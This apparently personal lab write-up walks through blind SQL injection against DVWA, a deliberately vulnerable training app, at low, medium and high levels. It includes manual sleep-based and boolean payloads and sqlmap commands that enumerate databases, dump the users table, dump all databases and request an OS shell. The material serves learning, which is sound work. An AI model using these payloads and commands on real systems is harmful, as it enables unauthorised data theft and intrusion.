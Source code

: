 ```yaml
---
title: "Bling SQL Injection"
date: 2025-01-30T16:06:04+01:00
draft: false
tags: ["Caido", "Firefox", "Proxy", "Web", "upload"]
categories: ["Hacking"]
---
```


 Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. 

https://portswigger.net/web-security/sql-injection/blind

Low:

![screenshot](1.png)

```1' and sleep(5)#```

![screenshot](2.png)

This command will help us determine how many columns there are.
1' and order by 1
1' and order by 2


This will verify the length of the database(rows): 
```1' and length(database())=4#```

![screenshot](3.png)

![screenshot](4.png)


Medium:

This one there is no button so you need to use Burp or Caido 

```id=1+and+sleep(5)+Submit=Submit```  will give us a 5 second sleep

![screenshot](5.png)


High:

In this instance, we have a seperate input screen

![screenshot](6.png)

##SQLmap

We would now like to use SQLmap to help automate the process.

Submit something into the field: 1
	- Copy the URL 
	- Take the cookie from the 'inspect' page under 'Storage', 'Cookies'

![screenshot](7.png)	


```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=bdfct00lniuj5o662f8qo13qgg"```

![screenshot](8.png)

![screenshot](9.png)

![screenshot](10.png)

Info:

	Linux | MySQL
	SLEEP: injectable
	UNION: Injectable
	2 Columns 
	
Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ```id=1' AND 5985=5985 AND 'XjUI'='XjUI&Submit=Submit```

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ```id=1' AND (SELECT 3077 FROM (SELECT(SLEEP(5)))MsJJ) AND 'HcJn'='HcJn&Submit=Submit```

To view the results use sqllitebrowser:
	navigate to: /home/kali/.local/share/sqlmap/output/192.168.10.123
	 sqlitebrowser session.sqlite

![screenshot](11.png)

We can use this command to find the name of the database:
```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" --dbs```

![screenshot](12.png)

Which gives up the name: dvwa
This command will give up the names of the tables:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="P" -D dvwa --tables```

users and guestbook

Command to get the info out of the users table

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --columns```

Or:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --dump```

![screenshot](13.png)

![screenshot](14.png)


So, the other 'guestbook' table was full of my injection attempts. 

![screenshot](15.png)

What seems like an easier way to do this is to create a file containing the GET request. 
Grab the get request from caido/burp
Paste it into Vi or any text editor
use the command: ```sqlmap -r [filename] --dump```

This will give you a dump of everything in all of the databases associated with the website. 

![screenshot](16.png)

![screenshot](17.png)

If you need a shell:
```sqlmap -r [filename] --os-shell``` (I struggled to get this working and didn't have time to explore)

Wizard: Low
```sqlmap --wizard --dump```
Then enter the url: ```http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#```

Wizard: Medium
```sqlmap --wizard --dump```